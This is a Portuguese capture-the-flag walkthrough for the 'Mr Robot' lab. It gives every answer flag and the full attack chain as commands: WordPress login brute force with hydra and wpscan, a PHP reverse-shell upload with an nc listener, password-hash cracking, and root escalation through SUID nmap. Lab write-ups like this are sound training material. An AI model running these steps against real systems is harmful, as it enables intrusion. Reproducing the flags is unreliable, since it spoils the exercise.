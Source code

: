 # Lab: Mr Robot (Medium Mode)

## Capture The Flags (CTF):

1. **What is key 1?** `073403c8a58a1f80d943455fb30724b9`
2. **What is key 2?** `822c73956184f694993bede3eb39f959`
3. **What is key 3?** `04787ddef27c3dee1ee161b21670b4e4`

---

## 1) Reconhecimento Inicial
```
export IP=10.10.200.166
```
```
nmap -A $IP
```
**Resultados:**
```
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

---

## 2) Enumeração de Diretórios
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultados Principais:**
- `/wp-login`  
- `/robots` → Contém `fsocity.dic` e `key-1-of-3.txt`
- `/key-1-of-3.txt` → FLAG: `073403c8a58a1f80d943455fb30724b9`

---

## 3) Análise de Wordlist
```bash
wc fsocity.dic  # Conta linhas/palavras/caracteres
```
```bash
ls -l  # Lista ficheiros e tamanhos
```
```bash
sort fsocity.dic | uniq > fsocityUniq.txt  # Ordena e remove duplicados
```

---

## 4) Ataque de Força Bruta (Burp Suite + Hydra)
```bash
wpscan --url 10.10.101.133 --passwords fsocityUniq.txt --usernames elliot
```
**Resultados:**
Username: Not Found!

```bash
hydra -L fsocityUniq.txt -p admin 10.10.200.166 http-post-form "/wp-login.php:log=^USER^&pass=^PASS^&wp-submit=LOG+In&redirect_to=http%3aA%2F%2F10.10.200.166%2Fwp-admin%2F&testcookie=1:Invalid username" -F -V
```
**Resultados:** 
Username: `elliot`

```bash
wpscan --url 10.10.101.133 --passwords fsocityUniq.txt --usernames elliot
```
**Credenciais Encontradas:**
- Username: `elliot`
- Password: `ER28-0652`

---

## 5) Reverse Shell via Editor PHP
```bash
cd /usr/share/webshells/php
```
```
cat php-reverse-shell.php > php-reverseshell.php
```
**Passos:**
1. Fazer upload do `php-reverseshell.php` no editor WordPress.
2. Iniciar listener:
```bash
nc -lnvp 9999
```
3. Aceder ao URL do ficheiro: `http://10.10.101.133/wp-content/themes/twentyfifteen/archive.php`

---

## 6) Escalada para Utilizador "robot"
```bash
whoami
cd home
cd robot
ls -l
cat password.raw-md5
```
**MD5 Encontrado:** `robot:c3fcd3d76192e4007dfb496cca67e13b`
**MD5 Descriptografado:** `abcdefghijklmnopqrstuvwxyz`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
su robot
```
**Password:** `abcdefghijklmnopqrstuvwxyz`
```bash
cat key-2-of-3.txt
```
**FLAG:** `822c73956184f694993bede3eb39f959`

---

## 7) Escalada de Privilégios para Root
```bash
find / -user root -perm -4000 2>/dev/null  # Identificar SUID bins
```
```bash
nmap --interactive
!sh
```
**Resultados:**
```bash
whoami  # root
cd /root
ls -l
cat key-3-of-3.txt
```
**FLAG Final:** `04787ddef27c3dee1ee161b21670b4e4`
